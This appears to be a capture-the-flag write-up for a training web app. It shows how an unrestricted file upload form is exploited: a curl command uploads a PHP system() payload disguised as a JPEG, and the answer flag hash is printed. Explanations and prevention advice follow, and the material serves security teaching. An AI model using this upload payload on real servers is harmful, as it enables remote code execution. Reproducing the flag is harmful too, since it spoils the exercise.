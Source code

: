# REMOTE_FILE_INCLUSION_(RFI)

## 🏴 Flag
```
46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8
```

## 📌 Extract

Page: [http://{IP}/index.php?page=upload](http://{IP}/index.php?page=upload)  
Inspect this form:

```html
<form enctype="multipart/form-data" action="#" method="POST">
	<input type="hidden" name="MAX_FILE_SIZE" value="100000">
	Choose an image to upload:
	<br>
	<input name="uploaded" type="file"><br>
	<br>
	<input type="submit" name="Upload" value="Upload">
</form>
```

This HTML form allows file uploads via a POST request, focus on:  
`<input name="uploaded" type="file">`: File selection field.  
`<input type="submit" name="Upload" value="Upload">`: Upload button.

> Testing injection of a php file

```sh
echo "<?php system('ls'); ?>" | \
curl -F "Upload=Upload" \
-F "uploaded=@-;type=image/jpeg" "http://{IP}/index.php?page=upload" | \
grep "The flag is :"
```

Sends an HTTP POST request to the website's upload page :
- `echo "<?php system('ls'); ?>"` : Create a php script.
- `-F "Upload=Upload"`: Simulates a submit button.
- `-F "uploaded=@-;type=image/jpeg"`:
	- `@-` means the file is taken from standard input (from the previous echo).
	- `type=image/jpeg` attempts to trick the server into believing it's an image.
- `grep "The flag is :”` filters the response.

## 🎯 Use

**Unrestricted File Upload** is a vulnerability where a website allows users to **upload files without properly validating** heir type or content. This can allow an attacker to upload malicious files (such as scripts) and **execute** them on the server.

- **Remote code execution:** Uploading a PHP file or executable script to take control of the server or run commands.  

- **Unauthorized data access:** Malicious files in public directories can be used to steal sensitive data like databases or config files.  

- **Privilege escalation:** Exploiting the vulnerability to gain admin privileges or access restricted server areas.  

- **🎣 Phishing or redirection attacks:** Malicious files executed in the user's browser can redirect them to malicious sites or steal sensitive information.

## 🔒 Prevention

1. **Strict file validation:** Allow only safe file types (e.g., images, documents) and reject executables (e.g., .php, .exe).  

2. **Rename uploaded files:** Rename uploaded files to random names to block execution.  

3. **File content detection:** Verify file content matches its type (e.g., ensure .jpg is an image, not a script).  

4. **Disable execution:** Prevent execution in upload directories (e.g., use .htaccess or similar settings).  

5. **Limit permissions:** Set read/write-only permissions, not execute.  

6. **Security tools:** Use antivirus or file scanners.

## 📚 Documentation

[wikipedia.org (Remote_File_Inclusion)](https://fr.wikipedia.org/wiki/Remote_File_Inclusion)  
[vaadata.com (exploitation-dune-faille-lfi)](https://www.vaadata.com/blog/fr/exploitation-dune-faille-lfi-local-file-inclusion-et-bonnes-pratiques-securite/)  
[chocapikk.com (faille_upload)](https://chocapikk.com/posts/2023/faille_upload/)

### 📖 [Home page](https://github.com/hugo-bourgeon/darkly#readme)

